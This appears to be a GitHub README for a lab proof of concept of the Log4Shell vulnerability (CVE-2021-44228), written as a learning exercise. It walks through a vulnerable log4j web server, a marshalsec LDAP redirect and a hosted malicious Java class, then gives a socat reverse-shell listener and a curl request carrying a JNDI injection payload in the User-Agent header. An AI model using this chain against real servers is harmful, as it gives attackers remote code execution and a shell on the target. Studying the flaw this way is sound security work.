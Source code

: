 # Introduction

I wanted to learn more about the internals of CVE-2021-44228 and see it in action, so I put together a basic PoC that simulates it; maybe someone else is interested in playing around with it.

A lot has been researched and written about this vulnerability already, but a basic breakdown of how this PoC works:

- log4j interprets strings instead of just writing them to a logfile
- it even allows for retrieving external Java objects through LDAP and other protocols
- a malicious Java object can easily be written to execute arbitrary code on the application server
- if the application runs as root, super user privileges are instantly obtained

For this PoC, the com.sun.jndi.ldap.object.trustURLCodebase was set to true. For a long time now, this is set to false by default, which at least mitigates what I did here. There are many ways to work around this mitigation, however, like using gadgets (known classes that are trusted by default), etc. In addition, there are other methods that can be used (RMI, DNS, etc.).

Maybe I'll try out some of the other ones in the future :)

# Infrastructure

## The vulnerable webserver

It's been many years since I touched Java, so for the webserver I used a basic Undertow sample and extended it with a vulnerable log4j version (2.14.1) to log the User-Agent of incoming requests (a common scenario IRL).

The webserver runs on port 1337.

You can build and run the webserver manually, or by using the build-and-run-webserver.sh included in the folder.

## LDAP server

For the LDAP lookup, we need an LDAP server. The JNDI query we inject is actually the URL of this LDAP server. It is attacker controlled, so not a requirement on the victim side.

There are various out of the box LDAP servers/redirects that we can use for this purpose, one of them being part of marshalsec, found here: https://github.com/mbechler/marshalsec

You need to clone and build this yourself:

```
# Clone the repo
git clone https://github.com/mbechler/marshalsec.git

# Build it
cd marshalsec
mvn clean package -DskipTests

# Run it
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

The URL supplied at the end, is yet another (attacker controlled) webserver that hosts the exploit itself, see the next section.

## The exploit itself

In the JNDI framework, an ObjectFactory plays a crucial role: it allows for dynamic creation of objects, even remote ones.

In our Exploit.java, we implement the ObjectFactory interface and our malicious code is part of the getObjectInstance override.

The exploit can be built and hosted using the supplied build-and-host-exploit.sh, this will start a simple Python webserver on port 8888: the URL supplied when you started the LDAP server.

# Exploitation

Once the infrastructure is running, doing the actual exploitation is trivial:

Run a shell listener:

```bash

socat -d -d TCP4-LISTEN:4444 STDOUT

```

Then, from a different shell, send a request to the vulnerable webserver:

```bash

curl -H 'User-Agent: ${jndi:ldap://127.0.0.1:1389/Exploit}' http://localhost:1337

```

As you can see, we perform a very basic GET request against our webserver, but in our User-Agent header, we supply a JNDI query with the URL of the LDAP server we started, to which log4j will send its lookup request. The LDAP server redirects the request to our Python webserver on port 8888, which serves the Exploit.class file back to the vulnerable webserver, which in turn instantiates the class it receives, executing our payload to drop a shell.
